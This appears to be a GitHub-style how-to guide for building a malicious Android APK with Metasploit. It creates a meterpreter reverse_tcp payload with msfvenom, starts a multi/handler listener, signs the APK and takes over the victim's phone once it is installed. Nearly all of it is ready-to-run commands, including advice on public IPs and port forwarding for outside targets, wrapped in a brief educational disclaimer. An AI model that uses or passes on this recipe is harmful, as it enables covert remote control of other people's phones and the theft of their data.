 **Metasploit Android Reverse Shell Setup**

This guide provides instructions on generating a malicious Android APK with a reverse shell using Metasploit's `msfvenom` and setting up a listener to capture the incoming connection.

**Disclaimer:** This information is intended for educational purposes only. Unauthorized use of these techniques is illegal and unethical.

## Prerequisites

- Linux system
- Metasploit Framework installed
- `apksigner` and `zipalign` tools

## Steps

### 1. Generate the Malicious APK

Use `msfvenom` to create an Android payload:

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=<your_port> -o malicious.apk
```

Replace:

- `<your_IP>`: Your local or public IP address
- `<your_port>`: Port to listen on (e.g., 4444)

**Note:** For external connections, use your public IP and ensure proper port forwarding.

### 2. Set Up the Metasploit Listener

Launch Metasploit and configure the listener:

```bash
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST <your_IP>
set LPORT <your_port>
exploit
```

For public IP setups, set `LHOST` to `0.0.0.0` to accept connections from any network.

### 3. Sign the APK

Android requires APKs to be signed. Generate a keystore and sign the APK:

```bash
keytool -genkey -v -keystore my-release-key.keystore -alias my-key-alias -keyalg RSA -keysize 2048 -validity 10000
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.keystore malicious.apk my-key-alias
```

### 4. Deploy and Execute

Once the target installs and opens the APK, Metasploit should establish a Meterpreter session:

```bash
meterpreter >
```


You can now execute commands on the compromised device.

**Important:** Always obtain proper authorization before conducting penetration tests or deploying such tools.
